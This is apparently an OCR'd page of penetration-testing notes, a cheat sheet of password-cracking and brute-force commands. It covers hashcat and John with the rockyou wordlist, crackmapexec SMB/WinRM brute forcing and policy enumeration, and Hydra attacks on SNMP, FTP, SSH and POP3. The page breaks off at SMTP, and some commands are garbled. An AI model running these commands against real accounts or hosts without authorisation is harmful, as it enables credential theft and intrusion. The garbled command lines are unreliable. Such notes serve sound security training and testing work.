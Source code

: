 ## PSSWD CRACKING

```text
> $ Look for the hash in online databases
```

Hashcat:

> $ Find mode in hashcat  
> ▪ hashcat --example hashes  
> $ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

John:

> $ john files --wordlist=/usr/share/wordlists/rockyou.txt

## PSSWD Mutation

Hashcat

> $ hashcat -m 0 bfield.hash /usr/share/wordlists/rockyou.txt -r rules

## PSSWD BruteForcing

Crackmapexec

> $ Enumerate password policy  
> ▪ crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol  
> $ Bruteforce SMB  
> ▪ crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst  
> $ Bruteforce winrm  
> ▪ crackmapexec winrm 10.10.10.172 -u /root/users.lst -p /root/passwords.lst

Hydra

> $ Hydra brute force against SNMP  
> ▪ hydra -P password-file.txt -v &gt; $ip snmp

```text
> $ Hydra FTP known user and rockyou password list
```

▪ hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV &gt; $ip ftp

```text
> $ Hydra SSH using list of users and passwords
```

▪ hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u &gt; $ip ssh

```text
> $ Hydra POP3 Brute Force
```

▪ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f &gt; $ip pop3 -V

```text
> $ Hydra SMTP Brute Force
```
